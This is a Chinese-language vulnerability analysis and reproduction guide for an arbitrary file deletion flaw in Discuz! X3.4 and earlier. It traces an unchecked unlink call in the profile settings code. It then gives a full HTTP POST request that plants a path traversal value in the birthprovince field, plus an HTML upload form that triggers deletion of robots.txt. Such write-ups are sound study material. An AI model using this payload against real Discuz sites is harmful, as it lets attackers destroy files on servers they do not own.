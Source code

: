 Discuz! X3.4 任意文件删除漏洞
=============================

一、漏洞简介
------------

二、漏洞影响
------------

影响版本：Discuz!x ≤3.4

三、复现过程
------------

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId25.png)

跟入代码70行

    if(submitcheck('profilesubmit')) {

当提交profilesubmit时进入判断，跟入177行

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId26.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId27.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

    @unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]);

回溯进入条件

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId28.png)

当上传文件并上传成功，即可进入unlink语句

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId29.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId30.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId32.png)

注册用户后，在个人设置页面找到自己的formhash：

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId33.png)

带上自己的Cookie、formhash发送如下数据包：

    POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
    Host: localhost
    Content-Length: 367
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
    Cookie: [your cookie]
    Connection: close

    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="formhash"

    [your formhash]
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="birthprovince"

    ../../../robots.txt
    ------WebKitFormBoundaryPFvXyxL45f34L12s
    Content-Disposition: form-data; name="profilesubmit"

    1
    ------WebKitFormBoundaryPFvXyxL45f34L12s--

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId34.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

    <body>
        <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
            <input type="file" name="birthprovince" />
            <input type="submit" value="upload" />
        </form>
    </body>

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](./.resource/Discuz!X3.4任意文件删除漏洞/media/rId35.png)
